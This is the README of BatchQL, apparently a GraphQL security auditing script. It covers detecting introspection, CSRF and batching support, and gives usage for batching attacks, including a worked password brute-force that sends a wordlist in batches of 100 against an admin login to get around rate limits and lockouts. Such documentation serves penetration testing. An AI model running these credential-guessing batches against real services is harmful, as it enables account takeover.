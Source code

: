 # BatchQL

BatchQL is a GraphQL security auditing script with a focus on performing batch GraphQL queries and mutations. This script is not complex, and we welcome improvments.

When exploring the problem space of GraphQL batching attacks, we found that there were a few blog posts on the internet, however no tool to perform GraphQL batching attacks.

GraphQL batching attacks can be quite serious depending on the functionalities implemented. For example, imagine a password reset functionality which expects a 4 digit pin that was sent to your email. With this tool, you could attempt all 10k pin attempts in a single GraphQL query. This may bypass any rate limiting or account lockouts depending on the implementation details of the password reset flow.

# Detections

This tool is capable of detecting the following:

- Introspection query support
- Schema suggestions detection
- Potential CSRF detection
- Query name based batching
- Query JSON list based batching

# Attacks

Currently, this tool only supports sending JSON list based queries for batching attacks. It supports scenarios where the variables are embedded in the query, or where they are provided in the JSON input.

# Usage

## Enumeration

```
❯ python batch.py -e http://re.local:5000/graphiql -p localhost:8080

Schema suggestions enabled. Use Clairvoyance to recover schema: https://github.com/nikitastupin/clairvoyance
CSRF GET based successful. Please confirm that this is a valid issue.
CSRF POST based successful. Please confirm that this is a valid issue.
Query name based batching: GraphQL batching is possible... preflight request was successful
Query JSON list based batching: GraphQL batching is possible... preflight request was successful
Most provide query, wordlist, and size to perform batching attack.
```

## Batching Attacks

1. Save a file that contains your GraphQL query i.e. `acc-login.txt`:

```
mutation emailLoginRemembered($loginInput: InputRememberedEmailLogin!) {
  emailLoginRemembered(loginInput: $loginInput) {
    authToken {
      accessToken
      __typename
    }
    userSessionResponse {
      userToken
      userIdentity {
        userId
        identityType
        verified
        onboardingStatus
        registrationReferralCode
        userReferralInfo {
          referralCode {
            code
            valid
            __typename
          }
          __typename
        }
        __typename
      }
      __typename
    }
    __typename
  }
  }
```

2. Run the following command to run a GraphQL batching attack:

```
❯ python batch.py --query acc-login.txt --wordlist passwords.txt -v '{"loginInput":{"email":"admin@shubs.io","password":"#VARIABLE#","rememberMe":false}}' --size 100 -e http://re.local:5000/graphiql -p localhost:8080
```

The above command does the following:

- Specifies a query from a local file `--query acc-login.txt`.
- Specifies a wordlist `--wordlist passwords.txt`
- Specifies the variable input with the replacement identifier `-v {"loginInput":{"email":"admin@example.com","password":"#VARIABLE#","rememberMe":false}}`
- Specifies the batch size `--size 100`
- Specifies the endpoint `-e http://re.local:5000/graphiql`
- Specifies a proxy `-p localhost:8080`

# References

- [GraphQL Batching Attack - Wallarm](https://lab.wallarm.com/graphql-batching-attack/)
- [Mitigating Batching Attacks](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#mitigating-batching-attacks)

